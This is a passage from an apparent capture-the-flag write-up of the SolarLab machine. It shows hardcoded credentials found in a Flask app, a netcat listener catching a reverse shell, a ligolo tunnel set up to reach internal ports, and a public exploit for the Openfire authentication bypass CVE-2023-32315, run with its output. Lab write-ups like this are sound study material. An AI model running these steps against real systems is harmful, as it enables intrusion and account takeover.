        db.session.add(User(username='alexanderk', password='HotP!fireguard'))

    db.session.commit()

def add_paragraph(time, request, text, content, user_signature, title_for_pdf):
```

Passwords can be also found hardcoded into the db used by the flask application:

```
PS C:\Users\blake\Documents\app\instance> cat users.db
SQLite format 3@  .j?
?!!??+?9tableuseruserCREATE TABLE user (
    id INTEGER NOT NULL, 
    username VARCHAR(50) NOT NULL, 
    password VARCHAR(100) NOT NULL, 
    PRIMARY KEY (id), 
    UNIQUE (username)
)';indexsqlite_autoindex_user_1user
????!)alexanderkHotP!fireguard'claudias007poiuytrewq 9blakebThisCanB3typedeasily1@
????!alexanderk
               claudias		blakeb
PS C:\Users\blake\Documents\app\instance>
```

But under Blake user we can grab out first flag:

```
PS C:\Users\blake\Desktop> cat user.txt
28688e76cbfe286887005b13edc4b195
PS C:\Users\blake\Desktop>
```

&nbsp;

# Root.txt

Now we can look around and find that Blake hold no strange permission but we can see the presence of another username called openfire:

```
PS C:\Users> ls


    Directory: C:\Users


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----        11/17/2023  10:03 AM                Administrator                                                        
d-----        11/16/2023   9:43 PM                blake                                                                
d-----        11/17/2023   2:13 PM                openfire                                                             
d-r---        11/17/2023  12:54 PM                Public                                                               


PS C:\Users> 
PS C:\Users> whoami /all  

USER INFORMATION
----------------

User Name      SID                                           
============== ==============================================
solarlab\blake S-1-5-21-3606151065-2641007806-2768514320-1000


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\BATCH                     Well-known group S-1-5-3      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192                                                    


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

PS C:\Users>
```

Now that openfire seems strange, looking around for strange installed software I see that is indeed installed? So openfire must be some kind of service account?

```
PS C:\Program Files> ls


    Directory: C:\Program Files


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----        11/16/2023   9:39 PM                Common Files                                                         
d-----         4/26/2024   4:39 PM                Internet Explorer                                                    
d-----        11/17/2023  10:04 AM                Java                                                                 
d-----        11/16/2023   9:47 PM                Microsoft Update Health Tools                                        
d-----         12/7/2019  11:14 AM                ModifiableWindowsApps                                                
d-----        11/17/2023   2:22 PM                Openfire                                                             
d-----         4/26/2024   2:38 PM                RUXIM                                                                
d-----          5/3/2024   2:34 PM                VMware                                                               
d-----        11/16/2023  11:12 PM                Windows Defender                                                     
d-----         4/26/2024   4:39 PM                Windows Defender Advanced Threat Protection                          
d-----        11/16/2023  10:11 PM                Windows Mail                                                         
d-----        11/16/2023  10:11 PM                Windows Media Player                                                 
d-----         4/26/2024   4:39 PM                Windows Multimedia Platform                                          
d-----         12/7/2019  11:50 AM                Windows NT                                                           
d-----        11/16/2023  10:11 PM                Windows Photo Viewer                                                 
d-----         4/26/2024   4:39 PM                Windows Portable Devices                                             
d-----         12/7/2019  11:31 AM                Windows Security                                                     
d-----         12/7/2019  11:31 AM                WindowsPowerShell
```

I remember having seen it in some CTF and indeed is an oldass XMPP chat client:

https://github.com/igniterealtime/Openfire

Let's check via netstat if we can find the ports?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/SolarLab]
└─# nc -lvnp 6666
listening on [any] 6666 ...

connect to [10.10.14.76] from (UNKNOWN) [10.10.11.16] 49987
PS C:\Users\blake\Documents\app> cd ..
PS C:\Users\blake\Documents> cd ..
PS C:\Users\blake> cd ..
PS C:\Users> cd ..
PS C:\> ls


    Directory: C:\


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-----         12/7/2019  11:14 AM                PerfLogs                                                             
d-r---          5/3/2024   2:34 PM                Program Files                                                        
d-r---        11/17/2023  10:04 AM                Program Files (x86)                                                  
d-r---        11/17/2023  10:02 AM                Users                                                                
d-----         5/16/2024   6:39 PM                Windows                                                              


PS C:\> netstat -an

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:6791           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING
  TCP    10.10.11.16:139        0.0.0.0:0              LISTENING
  TCP    10.10.11.16:445        10.10.16.15:53636      ESTABLISHED
  TCP    10.10.11.16:6791       10.10.14.76:34738      TIME_WAIT
  TCP    10.10.11.16:6791       10.10.14.76:34750      TIME_WAIT
  TCP    10.10.11.16:6791       10.10.14.76:40580      TIME_WAIT
  TCP    10.10.11.16:6791       10.10.14.76:40588      TIME_WAIT
  TCP    10.10.11.16:6791       10.10.14.76:40590      TIME_WAIT
  TCP    10.10.11.16:6791       10.10.14.76:40592      TIME_WAIT
  TCP    10.10.11.16:6791       10.10.14.76:40618      TIME_WAIT
  TCP    10.10.11.16:6791       10.10.14.76:40620      TIME_WAIT
  TCP    10.10.11.16:6791       10.10.14.76:40630      TIME_WAIT
  TCP    10.10.11.16:6791       10.10.14.76:41270      TIME_WAIT
  TCP    10.10.11.16:6791       10.10.14.76:46532      TIME_WAIT
  TCP    10.10.11.16:6791       10.10.14.76:46548      TIME_WAIT
  TCP    10.10.11.16:6791       10.10.14.76:48980      ESTABLISHED
  TCP    10.10.11.16:6791       10.10.14.76:50516      TIME_WAIT
  TCP    10.10.11.16:6791       10.10.14.76:50530      TIME_WAIT
  TCP    10.10.11.16:6791       10.10.14.76:58454      TIME_WAIT
  TCP    10.10.11.16:6791       10.10.14.76:58470      TIME_WAIT
  TCP    10.10.11.16:6791       10.10.14.76:58472      TIME_WAIT
  TCP    10.10.11.16:6791       10.10.14.76:58496      TIME_WAIT
  TCP    10.10.11.16:6791       10.10.14.76:58510      TIME_WAIT
  TCP    10.10.11.16:6791       10.10.14.76:58518      TIME_WAIT
  TCP    10.10.11.16:6791       10.10.14.76:58524      TIME_WAIT
  TCP    10.10.11.16:6791       10.10.14.76:58528      TIME_WAIT
  TCP    10.10.11.16:49865      10.10.16.15:6666       ESTABLISHED
  TCP    10.10.11.16:49909      10.10.14.65:9000       ESTABLISHED
  TCP    10.10.11.16:49928      10.10.14.65:11601      ESTABLISHED
  TCP    10.10.11.16:49987      10.10.14.76:6666       ESTABLISHED
  TCP    10.10.11.16:54601      10.10.16.15:4444       ESTABLISHED
  TCP    10.10.11.16:54689      10.10.14.65:9001       ESTABLISHED
  TCP    127.0.0.1:80           127.0.0.1:49941        TIME_WAIT
  TCP    127.0.0.1:80           127.0.0.1:49943        TIME_WAIT
  TCP    127.0.0.1:5000         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:5000         127.0.0.1:49932        TIME_WAIT
  TCP    127.0.0.1:5000         127.0.0.1:49942        ESTABLISHED
  TCP    127.0.0.1:5000         127.0.0.1:49945        ESTABLISHED
  TCP    127.0.0.1:5000         127.0.0.1:49947        TIME_WAIT
  TCP    127.0.0.1:5000         127.0.0.1:49949        TIME_WAIT
  TCP    127.0.0.1:5000         127.0.0.1:49950        TIME_WAIT
  TCP    127.0.0.1:5000         127.0.0.1:49955        TIME_WAIT
  TCP    127.0.0.1:5000         127.0.0.1:49958        TIME_WAIT
  TCP    127.0.0.1:5000         127.0.0.1:49959        TIME_WAIT
  TCP    127.0.0.1:5000         127.0.0.1:49965        TIME_WAIT
  TCP    127.0.0.1:5000         127.0.0.1:49980        TIME_WAIT
  TCP    127.0.0.1:5000         127.0.0.1:49982        TIME_WAIT
  TCP    127.0.0.1:5000         127.0.0.1:49984        ESTABLISHED
  TCP    127.0.0.1:5000         127.0.0.1:49991        TIME_WAIT
  TCP    127.0.0.1:5000         127.0.0.1:49994        ESTABLISHED
  TCP    127.0.0.1:5040         127.0.0.1:49974        ESTABLISHED
  TCP    127.0.0.1:5040         127.0.0.1:49978        CLOSE_WAIT
  TCP    127.0.0.1:5040         127.0.0.1:49981        CLOSE_WAIT
  TCP    127.0.0.1:5040         127.0.0.1:49985        CLOSE_WAIT
  TCP    127.0.0.1:5040         127.0.0.1:49988        CLOSE_WAIT
  TCP    127.0.0.1:5040         127.0.0.1:49990        CLOSE_WAIT
  TCP    127.0.0.1:5040         127.0.0.1:49993        ESTABLISHED
  TCP    127.0.0.1:5222         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:5223         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:5262         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:5263         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:5269         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:5270         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:5275         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:5276         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:5985         127.0.0.1:49976        ESTABLISHED
  TCP    127.0.0.1:5985         127.0.0.1:49977        TIME_WAIT
  TCP    127.0.0.1:7070         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:7443         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:9090         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:9091         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:49671        127.0.0.1:49672        ESTABLISHED
  TCP    127.0.0.1:49672        127.0.0.1:49671        ESTABLISHED
  TCP    127.0.0.1:49673        127.0.0.1:49674        ESTABLISHED
  TCP    127.0.0.1:49674        127.0.0.1:49673        ESTABLISHED
  TCP    127.0.0.1:49675        127.0.0.1:49676        ESTABLISHED
  TCP    127.0.0.1:49676        127.0.0.1:49675        ESTABLISHED
  TCP    127.0.0.1:49677        127.0.0.1:49678        ESTABLISHED
  TCP    127.0.0.1:49678        127.0.0.1:49677        ESTABLISHED
  TCP    127.0.0.1:49680        127.0.0.1:49681        ESTABLISHED
  TCP    127.0.0.1:49681        127.0.0.1:49680        ESTABLISHED
  TCP    127.0.0.1:49682        127.0.0.1:49683        ESTABLISHED
  TCP    127.0.0.1:49683        127.0.0.1:49682        ESTABLISHED
  TCP    127.0.0.1:49684        127.0.0.1:49685        ESTABLISHED
  TCP    127.0.0.1:49685        127.0.0.1:49684        ESTABLISHED
  TCP    127.0.0.1:49686        127.0.0.1:49687        ESTABLISHED
  TCP    127.0.0.1:49687        127.0.0.1:49686        ESTABLISHED
  TCP    127.0.0.1:49688        127.0.0.1:49689        ESTABLISHED
  TCP    127.0.0.1:49689        127.0.0.1:49688        ESTABLISHED
  TCP    127.0.0.1:49690        127.0.0.1:49691        ESTABLISHED
  TCP    127.0.0.1:49691        127.0.0.1:49690        ESTABLISHED
  TCP    127.0.0.1:49692        127.0.0.1:49693        ESTABLISHED
  TCP    127.0.0.1:49693        127.0.0.1:49692        ESTABLISHED
  TCP    127.0.0.1:49694        127.0.0.1:49695        ESTABLISHED
  TCP    127.0.0.1:49695        127.0.0.1:49694        ESTABLISHED
  TCP    127.0.0.1:49696        127.0.0.1:49697        ESTABLISHED
  TCP    127.0.0.1:49697        127.0.0.1:49696        ESTABLISHED
  TCP    127.0.0.1:49698        127.0.0.1:49699        ESTABLISHED
  TCP    127.0.0.1:49699        127.0.0.1:49698        ESTABLISHED
  TCP    127.0.0.1:49700        127.0.0.1:49701        ESTABLISHED
  TCP    127.0.0.1:49701        127.0.0.1:49700        ESTABLISHED
  TCP    127.0.0.1:49702        127.0.0.1:49703        ESTABLISHED
  TCP    127.0.0.1:49703        127.0.0.1:49702        ESTABLISHED
  TCP    127.0.0.1:49704        127.0.0.1:49705        ESTABLISHED
  TCP    127.0.0.1:49705        127.0.0.1:49704        ESTABLISHED
  TCP    127.0.0.1:49706        127.0.0.1:49707        ESTABLISHED
  TCP    127.0.0.1:49707        127.0.0.1:49706        ESTABLISHED
  TCP    127.0.0.1:49708        127.0.0.1:49709        ESTABLISHED
  TCP    127.0.0.1:49709        127.0.0.1:49708        ESTABLISHED
  TCP    127.0.0.1:49710        127.0.0.1:49711        ESTABLISHED
  TCP    127.0.0.1:49711        127.0.0.1:49710        ESTABLISHED
  TCP    127.0.0.1:49712        127.0.0.1:49713        ESTABLISHED
  TCP    127.0.0.1:49713        127.0.0.1:49712        ESTABLISHED
  TCP    127.0.0.1:49714        127.0.0.1:49715        ESTABLISHED
  TCP    127.0.0.1:49715        127.0.0.1:49714        ESTABLISHED
  TCP    127.0.0.1:49716        127.0.0.1:49717        ESTABLISHED
  TCP    127.0.0.1:49717        127.0.0.1:49716        ESTABLISHED
  TCP    127.0.0.1:49718        127.0.0.1:49719        ESTABLISHED
  TCP    127.0.0.1:49719        127.0.0.1:49718        ESTABLISHED
  TCP    127.0.0.1:49923        127.0.0.1:49924        ESTABLISHED
  TCP    127.0.0.1:49924        127.0.0.1:49923        ESTABLISHED
  TCP    127.0.0.1:49930        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49931        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49932        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49933        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49934        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49935        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49936        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49937        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49938        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49942        127.0.0.1:5000         ESTABLISHED
  TCP    127.0.0.1:49945        127.0.0.1:5000         ESTABLISHED
  TCP    127.0.0.1:49946        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49951        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49952        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49954        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49956        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49957        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49960        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49961        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49962        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49963        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49964        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49966        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49967        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49968        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49969        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49970        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49971        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49972        127.0.0.1:80           TIME_WAIT
  TCP    127.0.0.1:49974        127.0.0.1:5040         ESTABLISHED
  TCP    127.0.0.1:49975        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49976        127.0.0.1:5985         ESTABLISHED
  TCP    127.0.0.1:49978        127.0.0.1:5040         FIN_WAIT_2
  TCP    127.0.0.1:49979        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49981        127.0.0.1:5040         FIN_WAIT_2
  TCP    127.0.0.1:49983        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49984        127.0.0.1:5000         ESTABLISHED
  TCP    127.0.0.1:49985        127.0.0.1:5040         FIN_WAIT_2
  TCP    127.0.0.1:49986        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49988        127.0.0.1:5040         FIN_WAIT_2
  TCP    127.0.0.1:49989        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49990        127.0.0.1:5040         FIN_WAIT_2
  TCP    127.0.0.1:49992        127.0.0.1:5000         TIME_WAIT
  TCP    127.0.0.1:49993        127.0.0.1:5040         ESTABLISHED
  TCP    127.0.0.1:49994        127.0.0.1:5000         ESTABLISHED
  TCP    [::]:135               [::]:0                 LISTENING
  TCP    [::]:445               [::]:0                 LISTENING
  TCP    [::]:5985              [::]:0                 LISTENING
  TCP    [::]:47001             [::]:0                 LISTENING
  TCP    [::]:49664             [::]:0                 LISTENING
  TCP    [::]:49665             [::]:0                 LISTENING
  TCP    [::]:49666             [::]:0                 LISTENING
  TCP    [::]:49667             [::]:0                 LISTENING
  TCP    [::]:49668             [::]:0                 LISTENING
  UDP    0.0.0.0:123            *:*                    
  UDP    0.0.0.0:500            *:*                    
  UDP    0.0.0.0:4500           *:*                    
  UDP    0.0.0.0:5050           *:*                    
  UDP    0.0.0.0:5353           *:*                    
  UDP    0.0.0.0:5355           *:*                    
  UDP    10.10.11.16:137        *:*                    
  UDP    10.10.11.16:138        *:*                    
  UDP    10.10.11.16:1900       *:*                    
  UDP    10.10.11.16:57030      *:*                    
  UDP    127.0.0.1:1900         *:*                    
  UDP    127.0.0.1:49664        *:*                    
  UDP    127.0.0.1:57031        *:*                    
  UDP    [::]:123               *:*                    
  UDP    [::]:500               *:*                    
  UDP    [::]:4500              *:*                    
  UDP    [::1]:1900             *:*                    
  UDP    [::1]:57029            *:*
```

We can see from the web that many ports are available from the website:


So easiest now is to setup a connection via ligolong and route the internal ports so we don't need to do any port forward! First we need to upload the agent to the victim:  


Next we need to setup the listening server on our machine! And launch the connection back:  




Now since we do not need to pivot but to reach interal interfaces I need to add a special IP to be able to route back the traffic to/from the internal machine.

```
sudo ip route add 240.0.0.1/32 dev ligolo
```

Now going back we can see here(https://download.igniterealtime.org/openfire/docs/latest/documentation/install-guide.html#firewall) the port used by the admin console:  


This port we've seen that was open on the machine:



Nice now we should be able to reach via Ligolo via http://240.0.0.1:9090/login.jsp?url=%2Findex.jsp


Seems like based on this openfire version there is POC: https://github.com/advisories/GHSA-gw42-f939-fhvm

Specifically the poc states if we surf that particular link and we see the log verbose then we are gucci!





Nice now we need to find a working POC? This seems a good fit: https://github.com/miko550/CVE-2023-32315

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Exploits/CVE-2023-32315]
└─# python3 CVE-2023-32315.py -t http://240.0.0.1:9090 


 ██████╗██╗   ██╗███████╗    ██████╗  ██████╗ ██████╗ ██████╗      ██████╗ ██████╗ ██████╗  ██╗███████╗
██╔════╝██║   ██║██╔════╝    ╚════██╗██╔═████╗╚════██╗╚════██╗     ╚════██╗╚════██╗╚════██╗███║██╔════╝
██║     ██║   ██║█████╗█████╗ █████╔╝██║██╔██║ █████╔╝ █████╔╝█████╗█████╔╝ █████╔╝ █████╔╝╚██║███████╗
██║     ╚██╗ ██╔╝██╔══╝╚════╝██╔═══╝ ████╔╝██║██╔═══╝  ╚═══██╗╚════╝╚═══██╗██╔═══╝  ╚═══██╗ ██║╚════██║
╚██████╗ ╚████╔╝ ███████╗    ███████╗╚██████╔╝███████╗██████╔╝     ██████╔╝███████╗██████╔╝ ██║███████║
 ╚═════╝  ╚═══╝  ╚══════╝    ╚══════╝ ╚═════╝ ╚══════╝╚═════╝      ╚═════╝ ╚══════╝╚═════╝  ╚═╝╚══════╝
                                                                                                       
Openfire Console Authentication Bypass Vulnerability (CVE-2023-3215)
Use at your own risk!

[..] Checking target: http://240.0.0.1:9090
Successfully retrieved JSESSIONID: node0qfzx3rr3mu524vww7cw37k373.node0 + csrf: Upb6xGss5drQARW
User added successfully: url: http://240.0.0.1:9090 username: 1rjh7p password: 4hi4ih
```

Nice so let's login now!

&nbsp;



Now we need to check what juicy can we find?



I see only the admin but no other so let's try to reset it's password and check back!



This didn't make any difference except that we have a conference room:



I guess we need to login via XMPP client to check it's content!

Now we can use Pigdin or similar to connect to the server:

